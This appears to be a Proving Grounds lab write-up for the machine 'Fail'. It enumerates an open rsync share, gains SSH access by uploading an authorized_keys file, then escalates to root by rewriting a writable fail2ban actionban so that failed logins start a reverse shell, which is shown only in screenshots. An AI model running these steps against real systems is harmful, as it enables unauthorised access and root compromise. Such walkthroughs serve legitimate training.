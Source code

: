 ```yaml
---
layout: post
title: PG | Fail
subtitle: You shall not pass.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:26 UTC
Nmap scan report for 192.168.194.126
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.36 seconds
~~~

# Service Enumeration

## Rsync (TCP/873)
Rsync is a directory sharing protocol used on Unix systems

The protocol can be scanned for available folders using an nmap script
~~~bash
nmap -sV --script "rsync-list-modules" -p 873 192.168.194.126
~~~
~~~bash
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
~~~

The contents of the fox folder revealed the contents of an empty home directory
~~~bash
rsync -av --list-only rsync://192.168.194.126/fox
~~~
~~~bash
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 14:21:59 .
lrwxrwxrwx              9 2020/12/03 20:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 04:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 04:12:36 .bashrc
-rw-r--r--            807 2019/04/18 04:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
~~~

The contents of the fox folder can be retrieved and stored locally using the command
~~~bash
rsync -av rsync://192.168.194.126/fox ./rsyn_shared
~~~
These files reveal no useful information to further our progress.

Rsync also allows us to upload files, therefore we can generate a SSH key (as we have seen SSH TCP port 22 is enabled), then upload to the key to the machine using Rsync to
give us a remote connection to the machine.

# Exploitation

Generate SSH Key
~~~bash
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ ssh-keygen                                       
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:LvQfnvR+8TxNBfJBl+4vlOWFvrQu5HBkN6lzYPVXszk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|             .. o|
|            . ++.|
|             +.*=|
|            = *E*|
|      . S  + =.==|
|     . o  . = B.o|
|      . o o= = Bo|
|       . + +o =.=|
|          +.o+...|
+----[SHA256]-----+
~~~

Copy our .ssh directory locally
~~~bash
cp -R /home/kali/.ssh .
~~~

Rename id_rsa.pub (our public key) to authorized_keys before transferring to the target
~~~bash
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ cd .ssh
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ mv id_rsa.pub authorized_keys
~~~

Upload the .ssh file (containing authorized_keys) to Rsync
~~~bash
rsync -av /home/kali/Desktop/Fail/.ssh rsync://fox@192.168.194.126/fox
~~~

SSH into the target machine
~~~bash
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ ssh -i ./id_rsa fox@192.168.194.126
The authenticity of host '192.168.194.126 (192.168.194.126)' can't be established.
ED25519 key fingerprint is SHA256:mqPCrimr9j626KOGoHM+qxgHUOYD4pu1+4KzhIvu5uA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:37: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.126' (ED25519) to the list of known hosts.
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
$ 
~~~

# Privilege Escalation

After running Linpeas.sh a directory /etc/fail2ban was identified which is writable by our user

~~~bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                            
  Group fail2ban:                                                                                                                                                            
/etc/fail2ban/action.d                                                                                                                                                       
/etc/fail2ban/action.d/firewallcmd-ipset.conf
/etc/fail2ban/action.d/nftables-multiport.conf
/etc/fail2ban/action.d/firewallcmd-multiport.conf
/etc/fail2ban/action.d/mail-whois.conf
/etc/fail2ban/action.d/ufw.conf
You_can_write_even_more_files_inside_last_directory
~~~

A manual verification of this vulnerability was ran which identified full Read, Write, Execute (RWX) permissions over a file named action.d which is ran by Root

~~~bash
$ find /etc -writable -ls 2>/dev/null
   787482      4 drwxrwxr-x   2 root     fail2ban     4096 Dec  3  2020 /etc/fail2ban/action.d
~~~

After researching exploits for Fail2Ban an exploit I discovered an exploit within /etc/fail2ban/jail.conf [Exploit](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)

Inspecting /etc/fail2ban/jail.conf shows that Fail2Ban is configured to only allow 2 attempts before performing the banaction (maxretry) as shown below

![Fail](/assets/img/FailPG(1).png)

Further down it shows the banaction executes iptables-multiport, we have read-write permissions over iptables-multiport.conf as shown below

![Fail](/assets/img/FailPG(2).png)

![Fail](/assets/img/FailPG(3).png)

We then change the iptables-multiport.conf file's actionban= to include a reverse shell

Before

![Fail](/assets/img/FailPG(4).png)

After

![Fail](/assets/img/FailPG(5).png)

Start a listener on port 80

Attempt to log in with invalid credentials to execute the Fail2Ban and execute our reverse shell
~~~bash
┌──(kali㉿kali)-[~]
└─$ ssh root@192.168.194.126                    
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
root@192.168.194.126: Permission denied (publickey,password).
~~~
We then recieve our root shell on the netcat listener on port 80

![Fail](/assets/img/FailPG(6).png)
